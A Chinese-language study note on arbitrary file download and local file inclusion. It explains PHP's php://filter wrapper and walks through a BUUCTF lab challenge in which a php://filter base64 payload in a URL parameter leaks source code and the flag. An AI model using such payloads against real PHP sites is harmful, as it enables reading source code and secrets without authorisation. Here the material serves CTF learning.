 ## 任意文件下载漏洞
未对用户输入进行检查，用户构造恶意请求，下载除应用程序外的文件


# 1.filter利用
php://filter/convert.Base64-encode（将文件流通过Base64进行编码）
```php
php://filter 是 PHP 中的一种流过滤器（stream filter）机制，用于对数据流进行过滤和转换。它允许你在读取或写入数据流时应用过滤器，以便在传输数据之前或之后进行一些处理。
使用 php://filter 的基本语法如下：

 php://filter/<filtername>/resource
其中：

<filtername> 是过滤器的名称，表示你要应用的过滤器类型。
resource 是要过滤的数据流资源。
以下是一些例子：

Base64 编码解码：
$data = 'Hello, World!';
$encoded = file_get_contents('php://filter/read=convert.base64-encode/resource=data:text/plain;base64,' . base64_encode($data));
echo $encoded;

$decoded = file_get_contents('php://filter/write=convert.base64-decode/resource=data:text/plain;base64,' . base64_encode($data));
echo $decoded;
上述例子中，convert.base64-encode 和 convert.base64-decode 是两个过滤器，分别用于对数据进行 Base64 编码和解码。

字符串替换：


$data = 'Hello, World!';
$filteredData = file_get_contents('php://filter/read=string.toupper/resource=data:text/plain;base64,' . base64_encode($data));
echo $filteredData;
在这个例子中，string.toupper 过滤器将字符串转换为大写。

自定义过滤器：


stream_filter_register('custom_filter', 'CustomFilter');

class CustomFilter extends php_user_filter {
    public function filter($in, $out, &$consumed, $closing) {
        while ($bucket = stream_bucket_make_writeable($in)) {
            $bucket->data = strtoupper($bucket->data);
            $consumed += $bucket->datalen;
            stream_bucket_append($out, $bucket);
        }
        return PSFS_PASS_ON;
    }
}

$data = 'Hello, World!';
$filteredData = file_get_contents('php://filter/read=custom_filter/resource=data:text/plain;base64,' . base64_encode($data));
echo $filteredData;
这个例子中，定义了一个自定义的过滤器 CustomFilter，它将输入数据转换为大写。

总体来说，php://filter 提供了一种灵活的方式来处理数据流，你可以根据具体需求选择合适的过滤器进行处理。
```

- 题目：buuctf [第一章 web入门]afr_1
打开环境观察url：http://492361f9-44f3-4248-90bd-6a2beffa8495.node5.buuoj.cn:81/?p=hello
构造payload：?p=php://filter/convert.Base64-encode
发现什么都得不到，套用hello
?p=php://filter/convert.Base64-encode/resource=hello
得到 base64 编码：PD9waHAKCmVjaG8gImhlbGxvIHdvcmxkISI7
解码得到：<?php
echo "hello world!";
有输出，换成flag：?p=php://filter/convert.Base64-encode/resource=flag
拿到flag

## 2.目录遍历
- 靶场：Pikachu 
https://blog.csdn.net/qq_43531669/article/details/116865660
